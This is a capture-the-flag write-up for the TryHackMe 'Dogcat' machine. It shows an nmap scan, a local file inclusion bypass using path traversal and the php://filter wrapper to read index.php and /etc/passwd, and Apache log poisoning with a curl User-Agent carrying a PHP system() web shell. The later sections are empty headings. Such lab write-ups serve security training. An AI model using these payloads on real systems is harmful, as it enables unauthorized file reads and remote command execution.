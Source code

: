 ```yaml
---
title: Dogcat
date: 2021-11-30 11:11:11 +/-TTTT
categories: [writeup, tryhackme]
tags: [lfi, docker, php]
---
```


I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

|Machine Name | Date | Level | Type |
|-------------|-------|------|------|
| Dogcat | 1 Dec 2021 | Medium | ctf |

![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/ce2fe16cfcdac475834f262306243b0a.png)


## Reconnaissance

Start the reconnaissance with nmap.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-01 00:40 EST
Nmap scan report for 10.10.222.120
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.44 seconds

```

we have http and ssh services.

### http

On index.php we get two button's. and if we click any of them we get image of dog or cat. 
the uses `?view` parameter to fetch the image. that's is out initial foothold point.

![indexpage](/assets/thm/dogcat/indexpage.png)

If we tried simple lfi payload it will show ` Sorry, only dogs or cats are allowed. ` There may be some kind of filter is in place. tried some other lfi payload but all shows same error.

Maybe it expecte `dog` or `cat` as a base folder. 

Let's try `http://10.10.147.76/?view=dog/../../../../../../etc/passwd`

Now we got different error.

```
Warning: include(dog/../../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog/../../../../../../etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24

```

From this error we can canclude :

1. it adds `php` extention to our input file
2. it expect `/dog/{payload}`

This web application uses `php 7.4.3` so we can not use `null byte injection` to overcome with first injection. we have to figure out something different.

if web app add `.php` extention to our paylaod we can tried to read source code of `index.php` and build our payload using source code.

if we try to read index.php using `http://10.10.147.76/?view=dog/../index`

it will show error.

```
Fatal error: Cannot redeclare containsStr() (previously declared in /var/www/html/index.php:17) in /var/www/html/index.php on line 17

```
In this situation we can use wrapper payload to read the files.

`http://10.10.147.76/?view=php://filter/convert.iconv.utf-8.utf-16/resource=dog/../index` 

*note: payload used from PayloadsAllTheThings (check resource section)*

![indexcode](/assets/thm/dogcat/indexcode.png)

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>

```

`$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';`

web app first check if we add `ext` to file if not it will add `.php`. now we can bypass the `.php` extetion issue using `ext`


`http://10.10.147.76/?view=php://filter/convert.iconv.utf-8.utf-16/resource=dog/../../../../../../etc/passwd&ext` and we got `/etc/passwd`

![passwd](/assets/thm/dogcat/passwd.png)

The web application uses apache ( by wappalyzer) so we might be get shell by Poisoning.

## Gaining Access


we can read apache logs from file `/var/log/apache2/access.log`.

add php script to logfile .

`curl http://10.10.147.76 -A "<?php system(\$_GET['cmd']);?>"`

And we get cmd exection. 





## Privilege Escalation

## Notes

## Resources